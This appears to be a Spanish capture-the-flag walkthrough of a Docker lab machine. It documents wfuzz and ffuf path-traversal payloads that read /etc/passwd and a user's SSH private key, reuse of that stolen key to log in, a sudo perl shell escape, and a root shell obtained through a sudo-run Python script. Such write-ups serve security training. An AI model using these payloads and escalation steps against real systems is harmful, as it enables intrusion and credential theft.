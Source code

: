 # Máquina Psyco - Writeup

La máquina Psyco es un entorno Docker que expone un servidor HTTP en el puerto 80 y un servicio SSH en el puerto 22. La imagen del servidor HTTP contiene datos ocultos protegidos con contraseña, que intentamos extraer usando herramientas de esteganografía como stegseek, sin éxito, incluso con el diccionario rockyou.

El objetivo principal de esta máquina es explotar una vulnerabilidad **LFI (Local File Inclusion)** para acceder a archivos sensibles, y luego escalar privilegios mediante un script Python ejecutable con sudo.

## Enumeración

Comenzamos haciendo un escaneo de puertos, donde encontramos el puerto 80 con un servidor HTTP y el puerto 22 abierto para SSH. Descargamos la imagen del servidor HTTP para su análisis.

Aunque la imagen contiene datos ocultos con contraseña, no logramos extraerlos con stegseek ni con ataques por diccionario con rockyou.

## Identificación de LFI

Para identificar la vulnerabilidad LFI usamos la herramienta **wfuzz** con el siguiente comando:

```bash
wfuzz -c --hc=404 --hw 169 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt "http://172.17.0.2/index.php?FUZZ=../../../../../../../../../etc/passwd"
```

Esto nos permitió confirmar que el parámetro `vulnerables` nos daba acceso al archivo `/etc/passwd`. Al revisar este archivo vimos que existían tres usuarios principales:
- root
- vaxei  
- luisillo

## Fuzzing para encontrar archivos en home

Para descubrir qué archivos podíamos leer dentro de los directorios home de los usuarios, realizamos fuzzing con **ffuf**:

```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://172.17.0.2/index.php?secret=../../../../../../../../../home/FUZZ" -mc all -fc 404
```

Los resultados fueron muy extensos, así que filtramos por tamaño y creamos un diccionario personalizado llamado `lfi-pysco.txt` para afinar la búsqueda:

```bash
ffuf -w lfi-pysco.txt -u "http://172.17.0.2/index.php?secret=../../../../../../../../../home/vaxei/FUZZ" -mc all -fc 404 -fs 2582
```

Así encontramos dos archivos importantes en el directorio home del usuario vaxei:
- `.ssh/id_rsa.pub`
- `.ssh/id_rsa`

El archivo `.ssh/id_rsa` es la clave privada SSH, que nos permitiría conectarnos al servidor como el usuario vaxei.

## Uso de la clave privada para acceder vía SSH

La clave privada encontrada estaba en un formato moderno OpenSSH que no podíamos usar directamente. Por lo tanto, tuvimos que extraer el contenido base64, eliminar saltos de línea y espacios, y formatearlo con 64 caracteres por línea usando:

```bash
cat ~/.ssh/id_rsa_exfiltrada | tr -d ' \n' | fold -w64
```

Después, añadimos las cabeceras correctas:

```
-----BEGIN OPENSSH PRIVATE KEY-----
[contenido base64]
-----END OPENSSH PRIVATE KEY-----
```

Guardamos el archivo como `id_rsa_fixed` y le dimos los permisos adecuados para poder usarlo con ssh.

Luego intentamos conectarnos con:

```bash
ssh -i ~/.ssh/id_rsa_fixed vaxei@172.17.0.2
```

Y logramos acceso como el usuario **vaxei**.

## Escalada de privilegios con sudo

Ya dentro, ejecutamos `sudo -l` para ver qué comandos podíamos ejecutar como sudo sin contraseña. 

<img width="1039" height="100" alt="Pasted image 20250619005332" src="https://github.com/user-attachments/assets/78a0f32b-8df5-4310-883b-51c60344d10f" />


El resultado nos indicó que podíamos ejecutar un shell como el usuario luisillo mediante:

```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'
```

Esto nos permitió cambiar al usuario **luisillo**.

## Intentos de obtener root

En el home de luisillo no había nada útil, y los intentos de usar las claves o códigos encontrados no funcionaron para obtener acceso root directamente.

Sin embargo, volvimos a ejecutar `sudo -l` y vimos que podíamos ejecutar el script Python `/opt/paw.py` como root.

Al ejecutar el script, este daba errores, pero descubrimos que podíamos crear un script Python para llamar a un subprocess que ejecutara un shell con privilegios elevados.

Finalmente, ejecutando:

```bash
sudo /usr/bin/python3 /opt/paw.py
```

el script llamaba a `/bin/bash -p`, dándonos una shell con permisos **root**.

<img width="587" height="270" alt="Pasted image 20250619012535" src="https://github.com/user-attachments/assets/6cd84d90-dca9-4c6d-bb0a-3221b4d0c88c" />


## Flags

- El usuario **vaxei** se obtuvo usando la clave RSA privada filtrada y formateada.
- La flag **root** se consiguió accediendo a la shell con permisos root tras la ejecución del script Python con sudo.

